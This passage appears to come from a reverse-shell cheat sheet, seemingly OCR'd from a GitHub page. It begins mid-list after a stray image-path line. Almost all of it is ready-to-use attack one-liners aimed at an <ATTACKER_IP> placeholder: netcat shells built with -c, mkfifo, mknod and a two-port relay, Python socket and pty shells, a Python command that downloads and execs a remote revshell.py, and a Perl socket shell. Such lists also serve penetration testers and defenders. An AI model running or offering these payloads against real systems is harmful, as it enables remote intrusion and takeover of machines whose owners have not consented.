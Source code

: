 **Alternative syntax using `-c` to specify the command:**
```bash
nc -c bash <ATTACKER_IP> <ATTACKER_PORT>
```

**OpenBSD Netcat (without `-e`, using `mkfifo`):**
```bash
rm /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f
```

**Alternative for OpenBSD Netcat (using `mknod`):**
```bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc <ATTACKER_IP> <ATTACKER_PORT> 1>/tmp/backpipe
```

**Netcat without -e flag (Alternative method using two netcat instances on different ports):**
*Note: This requires the attacker to listen on both ports.*
```bash
nc <ATTACKER_IP> <ATTACKER_PORT_1> | /bin/bash | nc <ATTACKER_IP> <ATTACKER_PORT_2>
```

## Python

**Python 2:**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Python 3:**
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Shorter Python 3 (if `os` and `pty` are available):**
```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

**Python fetching and executing a remote script:**
```python
python3 -c 'import urllib.request;exec(urllib.request.urlopen("http://<ATTACKER_IP>/revshell.py").read())'
```

## Perl

```perl
perl -e 'use Socket;$i="<ATTACKER_IP>";$p=<ATTACKER_PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
